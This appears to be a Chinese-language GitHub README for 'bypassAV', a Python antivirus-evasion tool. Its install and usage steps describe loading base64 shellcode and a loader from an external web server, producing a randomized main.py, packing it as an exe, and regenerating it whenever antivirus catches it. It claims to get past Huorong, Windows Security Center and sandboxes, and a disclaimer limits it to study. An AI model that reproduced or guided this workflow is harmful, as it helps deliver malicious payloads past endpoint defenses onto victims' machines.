 -----

# ！！！声明！！！

本程序仅供于学习交流，请使用者遵守《中华人民共和国网络安全法》，勿将此脚本用于非授权的测试，脚本开发者不负任何连带法律责任。



### 0x01 What is？

> 作用：`python` 免杀 采用外部加载的方式加载 `loader` 和 `shellcode`
>
> 运行环境:  **`Python3`** **`Windows`** 其他环境没测试不清楚
>
> 亲测可过 `火绒` `window安全中心` 其他的自己测试，各大沙箱平台效果也还不错
>
> 默认的 `loader` 只能支持64位的 `shellcode`
>
> 懂代码的 可以自己修改对应的 `loader`

### 0x02 Install

```bash
# 创建一个虚拟环境
cd bypassAV
python -m venv venv
# 激活虚拟环境
venv\Script\active
# 安装依赖
pip install -r requirements.txt
```

### 0x03 Using

```bash
# 1. 到template目录下找到loader.txt 换成自己生成的Shllcode [base64版本]
# 激活虚拟环境
venv\Script\active
# 2.打开make.py最后一行，把url变成你一个对外的web服务
make_result('http://127.0.0.1:8899')
# 3. make.py 116行 就是默认启动本地一个 python web服务 需要自己开启
# os.system('cd %s && python -m http.server %s' % (k8, '8899'))
# 运行脚本
python make.py
# 会生成一个随机文件夹，里面的main.py就是你要的，其他的 .0 .1 .2 就是需要对外的web文件
# 最好是将main.py打包成exe 
# 怎么打包自己研究
#里面的变量都是随机的，每次被杀了 重新make一份就好了
```